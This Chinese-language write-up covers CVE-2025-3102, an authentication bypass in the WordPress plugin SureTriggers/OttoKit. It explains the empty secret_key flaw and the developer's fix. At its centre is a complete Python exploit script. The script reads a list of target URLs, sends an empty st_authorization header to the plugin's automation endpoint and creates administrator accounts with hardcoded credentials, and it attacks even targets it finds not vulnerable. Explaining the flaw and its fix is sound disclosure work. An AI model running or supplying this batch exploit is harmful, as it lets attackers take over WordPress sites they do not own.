


# WordPress自动化SureTriggers插件认证绕过漏洞

## 漏洞简介

2025 年 4 月，WordPress 自动化插件 OttoKit（原 SureTriggers）被披露存在高严重性安全漏洞（CVE-2025-3102，CVSS v3.1 评分 8.1）。该漏洞为**授权绕过漏洞**，允许未经身份验证的攻击者在特定条件下创建管理员账户，进而完全控制目标 WordPress 站点。漏洞自公开披露后数小时内即遭实战化利用，攻击者通过伪造管理员账户实施网站接管、恶意代码注入等攻击行为。

## 影响范围

SureTriggers WordPress插件包含一个严重的身份验证绕过漏洞（CVE-2025-3102），该漏洞影响1.0.78之前的所有版本。

## 漏洞原理

漏洞存在于 SureTriggers 插件 1.0.78 及之前所有版本的authenticate_user函数中，核心缺陷是对secret_key参数缺乏空值校验。当插件处于**已安装激活但未配置 API 密钥**的未初始化状态时，攻击者可通过构造特制 HTTP 请求，绕过身份验证机制直接调用管理员账户创建接口。具体技术逻辑如下：

- 未配置状态下，插件默认使用空值secret_key作为验证令牌
- 函数未校验secret_key有效性，直接允许后续权限操作
- 利用漏洞可生成具有完全控制权限的管理员账户



## POC

POC来源：https://github.com/baribut/CVE-2025-3102

```python
import requests
import json
import re

# 忽略http警告
requests.packages.urllib3.disable_warnings()

# 配置需要创建的用户信息
EMAIL = "A1andNS@wordpress.org"
USERNAME = "A1andNS"
PASSWORD = "A1andNS"

# 获取插件版本号
def fetch_plugin_version(target_url):
    try:
        readme_url = f"{target_url.rstrip('/')}/wp-content/plugins/suretriggers/readme.txt"
        response = requests.get(readme_url, timeout=10, verify=False)
        if response.status_code == 200:
            match = re.search(r"Stable tag:\s*(\d+\.\d+\.\d+)", response.text)
            if match:
                return match.group(1)
        return None
    except:
        return None

# 判断该版本是否存在漏洞
def is_version_vulnerable(version):
    try:
        version_parts = list(map(int, version.split(".")))
        return version_parts <= [1, 0, 78]
    except:
        return False

# 配置HTTP请求头
def prepare_headers():
    return {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": "application/json",
        "st_authorization": ""
    }

# 创建payload
def build_payload():
    return {
        "integration": "WordPress",
        "type_event": "create_user_if_not_exists",
        "selected_options": {
            "user_email": EMAIL,
            "user_name": USERNAME,
            "password": PASSWORD
        },
        "fields": [],
        "context": {}
    }

# 发送http请求
def send_exploit_request(endpoint, headers, payload):
    try:
        return requests.post(endpoint, headers=headers, json=payload, timeout=15, verify=False)
    except:
        return None

# 处理目标
def handle_target(target_url):
    print(f"\n[>] Target: {target_url}")
    version = fetch_plugin_version(target_url)

    if version:
        print(f"[+] Plugin version: {version}")
        if is_version_vulnerable(version):
            print("[+] Vulnerable version detected. Proceeding with exploit...")
        else:
            print("[-] Target version is not vulnerable. Attempting exploit anyway...")
    else:
        print("[-] Could not determine plugin version. Proceeding without version verification.")

    headers = prepare_headers()
    payload = build_payload()
    endpoint = f"{target_url.rstrip('/')}/wp-json/sure-triggers/v1/automation/action"
    response = send_exploit_request(endpoint, headers, payload)

    if not response:
        print("[-] No response received.")
    else:
        try:
            resp_data = response.json()
            if resp_data.get("success"):
                print("[+] Exploit successful!")
                print(f"[+] Credentials: {USERNAME}:{PASSWORD}")
            else:
                print("[-] Exploit failed. Response indicated failure.")
        except:
            print("[-] Failed to parse JSON response.")

# 把需要检测的url放在list.txt文件中，再使用脚本
def main():
    try:
        with open("list.txt", "r") as file:
            targets = [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print("[-] list.txt not found.")
        return

    for target in targets:
        handle_target(target)


if __name__ == "__main__":
    main()
```

## 代码修复情况

通过跟踪Suretriggers的github commit情况，可以发现原来的代码从HTTP头部获取了`st_authorization`参数，并检查secret_key是否匹配，如果匹配则通过验证。因此，如果suretriggers启用后没有设置一个API key，即secret_key为一个空值。那么攻击者只需要在HTTP头中提供空的`st_authorization`即可通过验证。



那么我们看看开发者是如何修复该问题的，在接收`st_authorization`参数值后，需要检查secret_key是否不是字符串，是否为空，系统中配置的secret_key是否为空。只有在secret_key是一个不为空的字符串时，才能通过初始验证。后续已经是比对secret_key是否匹配，最后还补充了一个hash值得对比。
